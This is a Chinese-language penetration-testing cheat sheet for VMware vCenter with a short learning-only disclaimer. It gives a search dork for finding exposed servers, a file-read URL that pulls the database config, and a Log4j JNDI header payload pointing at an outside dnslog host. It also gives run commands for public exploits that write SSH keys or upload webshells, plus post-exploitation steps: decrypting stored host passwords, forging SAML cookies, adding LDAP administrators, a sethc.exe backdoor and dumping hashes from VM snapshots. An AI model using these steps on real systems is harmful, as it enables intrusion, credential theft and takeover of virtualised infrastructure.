

# vCenter

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

> Fofa: title="ID_VC_Welcome"

**简介**

Vcenter 一般指 VMware vCenter Server，其提供了一个可伸缩、可扩展的平台，为虚拟化管理奠定了基础，可集中管理 VMware vSphere 环境，与其他管理平台相比，极大地提高了 IT 管理员对虚拟环境的控制，Vcenter 可以使管理员从一个位置深入了解虚拟基础架构的集群、主机、虚拟机、存储、客户操作系统和其他关键组件等所有信息。

**相关文章**
- [VMware vCenter漏洞实战利用总结](https://mp.weixin.qq.com/s/0gg5TDEtL3lCb9pOnm42gg)
- [获取vCenter权限后的利用方式](https://www.djhons.com/2022/03/11/77.html)
- [Vmware ESXI Virtual Machine Hacking (Linux, Windows) (Pass to Hash, Mimikatz, Windbg, Volatility)](https://vvhack.org/t/vmware-esxi-virtual-machine-hacking-linux-windows-pass-to-hash-mimikatz-windbg-volatility/353)

**相关工具**
- [Schira4396/VcenterKiller](https://github.com/Schira4396/VcenterKiller) - 一款针对 Vcenter 的综合利用工具，包含目前最主流的 CVE-2021-21972、CVE-2021-21985 以及 CVE-2021-22005 以及 log4j，提供一键上传 webshell，命令执行或者上传公钥使用 SSH 免密连接

**思路和 tips**
- 拿下 vCenter 滚雪球扩大战果，获取 windows 机器的 hash，或者直接进入虚拟机进行信息搜集，收集内网密码策略
- vCenter 运行在 vmware 自家的 photonOS 上,这个系统开源在 https://github.com/vmware/photon 使用方法可以参考 https://vmware.github.io/photon/assets/files/html/3.0/photon_admin/

**环境搭建**
- [vCenter搭建](../../../../Integrated/虚拟化/vCenter.md#环境搭建)
- [ESXi搭建](../../../../Integrated/虚拟化/ESXi.md#环境搭建)

---

## 查看 Vcenter 版本

```
/sdk/vimServiceVersions.xml
```



---

## 远程利用

### Vmware vCenter 任意文件读取

**POC | Payload | exp**
```
https://Domain/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```

---

### Log4j

**影响版本**
* 7.x
* 6.x

**POC | Payload | exp**

Vcenter 的 SAML 路由中，可以通过增加 XFF 头触发漏洞
```
/websso/SAML2/SSO/vsphere.local?SAMLRequest=

X-Forwarded-For: ${jndi:ldap://xxx.dnslog.cn/a}

# 可用 tomcatecho
```

---

### CVE-2020-3952

**漏洞描述**

在某些情况下，作为嵌入式或外部平台服务控制器（PSC）的一部分，随 VMware vCenter Server 提供的 vmdir 不能正确实施访问控制。

在受影响的 vmdir 部署 1 上有网络访问端口 389 的恶意行为者可能会提取高度敏感的信息，如管理账户凭证，可用于破坏 vCenter Server 或其他依赖 vmdir 进行验证的服务。也有可能出现不同的攻击payload，如创建新的由攻击者控制的管理账户。

**影响版本**
- VMware vCenter Server 6.7系列 < 6.7.0u3f

**相关文章**
- [What’s a 10? Pwning vCenter with CVE-2020-3952](https://www.guardicore.com/2020/04/pwning-vmware-vcenter-cve-2020-3952/)
    - [CVE-2020-3952：vCenter信息泄露漏洞分析](https://www.anquanke.com/post/id/203285)

**POC | Payload | exp**
- [guardicore/vmware_vcenter_cve_2020_3952](https://github.com/guardicore/vmware_vcenter_cve_2020_3952)
    ```bash
    git clone https://github.com/guardicore/vmware_vcenter_cve_2020_3952
    # 安装下编译的依赖,不然装 python-ldap 会报错
    apt-get install libsasl2-dev python-dev libldap2-dev libssl-dev
    pip3 install python-ldap
    cd vmware_vcenter_cve_2020_3952
    python3 exploit.py <VCENTER_IP> <NEW_USERNAME> <NEW_PASSWORD>
    ```

---

### CVE-2021-21972

**漏洞描述**

vSphere Client（HTML5）在 vCenter Server 插件中存在一个远程执行代码漏洞。未授权的攻击者可以通过开放 443 端口的器向 vCenter Server 发送精心构造的请求，从而在服务器上写入 webshell，最终造成远程任意代码执行。

**影响版本**
- VMware vCenter Server 7.0系列 < 7.0.0U1c
- VMware vCenter Server 6.7系列 < 6.7.0U3l
- VMware vCenter Server 6.5系列 < 6.5.0U3n
- VMware ESXi 7.0系列 < ESXi70U1c-17325551
- VMware ESXi 6.7系列 < ESXi670-202102401-SG
- VMware ESXi 6.5系列 < ESXi650-202102101-SG

**相关文章**
- [CVE-2021-21972 vCenter 6.5-7.0 RCE](https://mp.weixin.qq.com/s/saUkV6jAwmYuzg5QTRwyRw)
- [VMware vCenter RCE 漏洞踩坑实录——一个简单的RCE漏洞到底能挖出什么知识](https://mp.weixin.qq.com/s/eamNsLY0uKHXtUw_fiUYxQ)
- [Unauthorized RCE in VMware vCenter](https://swarm.ptsecurity.com/unauth-rce-vmware/)
- [CVE-2021-21972：VMware vCenter Server远程代码执行漏洞复现](https://mp.weixin.qq.com/s/KvhFnEE6uhk3bMF2gHJ_DQ)
- [CVE-2021-21972 Vmware vcenter未授权任意文件漏洞分析](https://mp.weixin.qq.com/s/0VZzc0gYBrGIeuu1-QCFag)
- [CVE-2021-21972 vCenter Server 文件写入漏洞分析](http://noahblog.360.cn/vcenter-6-5-7-0-rce-lou-dong-fen-xi/)
- [CVE-2021-21972：vSphere Client RCE复现](https://mp.weixin.qq.com/s/AKfemW8kYe4rQ4HYIqDxMA)

**POC | Payload | exp**
- [NS-Sp4ce/CVE-2021-21972](https://github.com/NS-Sp4ce/CVE-2021-21972)
    ```bash
    git clone https://github.com/NS-Sp4ce/CVE-2021-21972.git
    cd CVE-2021-21972
    python3 cve-2021-21972.py -url
    ```
- [TaroballzChen/CVE-2021-21972](https://github.com/TaroballzChen/CVE-2021-21972)
- [horizon3ai/CVE-2021-21972](https://github.com/horizon3ai/CVE-2021-21972)
    ```bash
    git clone https://github.com/horizon3ai/CVE-2021-21972.git
    cd CVE-2021-21972

    # 写 ssh 公钥方法 (默认 vcenter 不开启远程 ssh)
    # /root/.ssh/id_rsa.pub 这个公钥需提前生成
    # 这个 192.168.8.250 是我vcenter测试机器的目标地址,记得改成自己的
    python3 CVE-2021-21972.py -t 192.168.8.250 -f /root/.ssh/id_rsa.pub -p /home/vsphere-ui/.ssh/authorized_keys -o unix
    ssh 192.168.8.250 -l vsphere-ui
    ```

---

### CVE-2021-21973 SSRF

**漏洞描述**

VMware vCenter Server 插件中对用户提供的输入验证不当，未经过身份验证的远程攻击者可以发送特制的 HTTP 请求，欺骗应用程序向任意系统发起请求。

**影响版本**
- vCenter Server: 6.5, 6.5 U1, 6.5 U3, 6.5.0, 6.5.0a, 6.5.0b, 6.5.0c, 6.5.0d, 6.5u2c, 6.7, 6.7 U3, 6.7.0, 6.7.0d, 6.7u3f, 7.0
- Cloud Foundation: before 3.10.1.2, 4.2

**POC | Payload | exp**
- https://twitter.com/osama_hroot/status/1365586206982082560

---

### CVE-2021-21985

**漏洞描述**

该漏洞存在于 vSphere Client（HTML5）中，由于 vCenter Server 中默认启用的 Virtual SAN Health Check 插件缺乏输入验证，拥有 443 端口网络访问权限的攻击者可以利用此漏洞在承载 vCenter Server 的操作系统上远程执行任意命令。

**影响版本**
- VMware vCenter Server 7.0系列 < 7.0.0U2b
- VMware vCenter Server 6.7系列 < 6.7.0U3n
- VMware vCenter Server 6.5系列 < 6.5.0U3p
- VMware Cloud Foundation 4.x 系列 < 4.2.1
- VMware Cloud Foundation 4.x 系列 < 3.10.2.1

**相关文章**
- [VMware vCenter Server远程代码执行POC](https://www.hedysx.com/2761.html)
- [Vcenter Server CVE-2021-21985 RCE PAYLOAD](https://www.iswin.org/2021/06/02/Vcenter-Server-CVE-2021-21985-RCE-PAYLOAD/)
- [CVE-2021-21985: VMware vCenter Server RCE复现](https://mp.weixin.qq.com/s/_4YyfYvxmjg9s49ucsUt8Q)
- [CVE-2021-21985 vCenter Server 远程代码执行漏洞分析](http://noahblog.360.cn/vcenter-cve-2021-2021-21985/)

**POC | Payload | exp**
- [r0ckysec/CVE-2021-21985](https://github.com/r0ckysec/CVE-2021-21985)
    ```bash
    git clone https://github.com/r0ckysec/CVE-2021-21985.git
    cd CVE-2021-21985
    python3 CVE-2021-21985_echo.py https://x.x.x.x whoami
    ```
- [vCenter Server CVE-2021-21985 POC](https://mp.weixin.qq.com/s/KYG76IbR6PRs8PjrNDyVkQ)
- [alt3kx/CVE-2021-21985_PoC](https://github.com/alt3kx/CVE-2021-21985_PoC)

---

### CVE-2021-22005

**漏洞描述**

在 CVE-2021-22005 中，攻击者可构造恶意请求，通过 vCenter 中的 Analytics 服务，可上传恶意文件，从而造成远程代码执行漏洞。

**影响版本**
- VMware vCenter Server 7.0系列 < 7.0 U2c
- VMware vCenter Server 6.7系列 < 6.7 U3o
- VMware vCenter Server 6.5系列 不受该漏洞影响
- VMware Cloud Foundation (vCenter Server) 4.x
- VMware Cloud Foundation (vCenter Server) 3.x

**相关文章**
- [CVE-2021-22005-VMware VCenter Server 从目录穿越到命令执行（需CEIP开启）](https://mp.weixin.qq.com/s/gVsxziLqRQzb7QVOfyuBKw)
- [vCenter CVE-2021-22005](https://www.o2oxy.cn/3773.html)
- [VMware vCenter漏洞之CVE-2021-22005追踪记](https://web.archive.org/web/20211122052252/https://p0rz9.github.io/2021/10/vmware-vcenter-lou-dong-zhi-cve-2021-22005-zhui-zong-ji/)
- [CVE-2021-22005-VMware vCenter漏洞学习](https://mp.weixin.qq.com/s/EfmNK7Hb4rdm0L9mdz_bwg)

**POC | Payload | exp**
- [r0ckysec/CVE-2021-22005](https://github.com/r0ckysec/CVE-2021-22005)
- [shmilylty/cve-2021-22005-exp](https://github.com/shmilylty/cve-2021-22005-exp)
    ```bash
    # 该 exp 只能打目标为 Linux 版本的 vCenter
    git clone https://github.com/shmilylty/cve-2021-22005-exp.git
    cd cve-2021-22005-exp
    chmod +x exp.elf && ./exp.elf -t https://x.x.x.x -s hello.jsp
    ```
- [rwincey/CVE-2021-22005](https://github.com/rwincey/CVE-2021-22005)

---

### CVE-2021-22017

**相关文章**
- [CVE-2021-22017-VMware vCenter Server从认证绕过到Velocity RCE（无需CEIP开启）](https://mp.weixin.qq.com/s/hZsfz4nw4HuYlduz7LK18g)

---

### arbitrary file read + ssrf + xss

**POC | Payload | exp**
- [l0ggg/VMware_vCenter](https://github.com/l0ggg/VMware_vCenter)
- [从VMware vCenter SSRF漏洞调试来看系统模块调用与认证机制](https://mp.weixin.qq.com/s/vcys3zYPkjMcBWrpl8A3Dg)

---

## 提权

### CVE-2021-3156

**漏洞描述**

在 sudo 解析命令行参数的方式中发现了基于堆的缓冲区溢出。任何本地用户（普通用户和系统用户，sudoer 和非 sudoers）都可以利用此漏洞，而无需进行身份验证，攻击者不需要知道用户的密码。成功利用此漏洞可以获得 root 权限。

**相关文章**
- [Exploiting the Sudo Baron Samedit vulnerability (CVE-2021-3156) on VMWare vCenter Server 7.0](https://research.nccgroup.com/2021/07/06/exploiting-the-sudo-baron-samedit-vulnerability-cve-2021-3156-on-vmware-vcenter-server-7-0/)

### CVE-2021-22015

**漏洞描述**

vcenter 本地的提权, 由于 /usr/lib/vmware-vmon/java-wrapper-vmon 文件以 root 权限调用，vsphere-ui 用户属于 cis 组中，而 cis 组的用户都可以修改 java-wrapper-vmon 文件，所以编辑 java-wrapper-vmon 文件，在 vcenter 服务重启时可以触发提权。

**影响版本**
- VMware vCenter Server 7.0系列
- VMware vCenter Server 6.7系列
- VMware vCenter Server 6.5系列

**相关文章**
- [vScalation (CVE-2021-22015)- Local Privilege Escalation in VMware vCenter](https://www.pentera.io/blog/vscalation-cve-2021-22015-local-privilege-escalation-in-vmware-vcenter-pentera-labs/)

---

## 后渗透

**Postgresql 的配置文件位置**
- linux : /etc/vmware-vpx/vcdb.properties
- windows : C:\programdata\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties

**相关工具**
- [JamesCooteUK/SharpSphere](https://github.com/JamesCooteUK/SharpSphere) - .NET Project for Attacking vCenter
- [RicterZ/PySharpSphere](https://github.com/RicterZ/PySharpSphere) - Inspired by SharpSphere, just another python version.

### CVE-2022-22948

**漏洞描述**

对 postgresql 里的 vcenter 密码解密

**相关文章**
- [CVE-2022-22948: Sensitive Information Disclosure in VMware vCenter](https://www.pentera.io/blog/information-disclosure-in-vmware-vcenter/)

**POC | Payload | exp**
- [shmilylty/vhost_password_decrypt](https://github.com/shmilylty/vhost_password_decrypt) - vhost password decrypt
    ```bash
    # symkey.dat
    Windows: C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\ssl\symkey.dat
    Linux: /etc/vmware-vpx/ssl/symkey.dat

    # postgres user password
    Windows: C:\ProgramData\VMware\vCenterServer\cfg\vmware-vps\vcdb.properties
    Linux: /etc/vmware-vpx/vcdb.properties /etc/vmware/service-state/vpxd/vcdb.properties

    # 密文
    psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc

    # 解密
    git clone https://github.com/shmilylty/vhost_password_decrypt.git
    cd vhost_password_decrypt
    pip3 install pycryptodome
    python3 decrypt.py symkey.dat password.enc password.txt
    ```

### 伪造 cookie

**获取 data.mdb**
- windows：C:/ProgramData/VMware/vCenterServer/data/vmdird/data.mdb
- linux：/storage/db/vmware-vmdir/data.mdb

**相关工具**
- [horizon3ai/vcenter_saml_login](https://github.com/horizon3ai/vcenter_saml_login) - A tool to extract the IdP cert from vCenter backups and log in as Administrator

> 目标机器内网 ip 需要本地可以访问到，否则无法伪造 cookie。
```bash
python3 vcenter_saml_login.py -p data.mdb -t <目标机器内网ip>
```

替换 cookie 进行访问

### LDAP 创建管理员

**相关文章**
- https://3gstudent.github.io/vSphere开发指南5-LDAP

**相关工具**
- https://github.com/3gstudent/Homework-of-Python/blob/master/vCenterLDAP_Manage.py
    ```bash
    # 执行命令搜集相关信息
    python vCenterLDAP_Manage.py
    python vCenterLDAP_Manage.py getadmin
    python vCenterLDAP_Manage.py getuser

    # 根据收集到的信息修改脚本内容
    python vCenterLDAP_Manage.py adduser
    python vCenterLDAP_Manage.py addadmin

    # 登录验证
    ```

### 获取 Vcenter 后台 windows 机器权限

**pe**

把 pe 文件上传到 vcenter 中。然后在 CD/DVD 驱动器中选择刚刚上传的 pe。最后在虚拟机选项中的引导选项勾选强制进入 bios，保存后打开虚拟机电源。

进入 bios 后在 boot 中按 -+ 调整顺序，将 CD-ROM Drive 设置为第一启动项，进入 PE 后在 windows/system32 中将 sethc.exe 改为 sethc.bak，复制一个 cmd 并重命名为 sethc.exe，然后重新勾选强制进入 bios，重启后将 CD-ROM Drive 改回去，然后按五次 shift 弹出 cmd

或者把后门放到启动项里也是一样

- https://mp.weixin.qq.com/s/-cEf0bG8j_8VdoSEeMsNGw

**KonBoot**
- https://mp.weixin.qq.com/s/Okxc4CdFRPe82UHN4UXQHQ

和 pe 也一个套路,通过上传 KonBoot 镜像，然后克隆一台出来，修改引导，免密进入，抓取 hash

**挂载VMDK**
- https://mp.weixin.qq.com/s/JI3YlyComDViFX31UE8ddA

克隆一个域控机器, 将克隆的目标域控机器的 vmdk 文件挂载到一台我们能够正常登录的机器上, 然后本地抓取 hash

**内存取证**
- https://mp.weixin.qq.com/s/DbXxm6vWgtL8uGjO_z-ocA

进后台，找 windows 主机，创建快照。

快照保存在相对应的数据库中，在相对应的数据库中下载 vmem 和 vmsn 这两个文件。

利用 volatility 查看 hash,可以参考笔记 [Volatility](../../../安全工具/Volatility.md#信息)
```
volatility_2.6_win64_standalone.exe -f server2008R2-Snapshot2.vmem imageinfo
volatility_2.6_win64_standalone.exe -f server2008R2-Snapshot2.vmem --profile=Win7SP1x64 hivelist
# -y 是 system
# -s 是 sam
volatility_2.6_win64_standalone.exe -f server2008R2-Snapshot2.vmem --profile=Win7SP1x64 hashdump -y 0xfffff8a000024010 -s 0xfffff8a000478010
```

### 获取 Vcenter 后台 linux 机器权限

**忘记密码**

参考 centos 忘记密码的还原方法
- [密码重置](../../../../Integrated/Linux/Secure-Linux.md#密码重置)
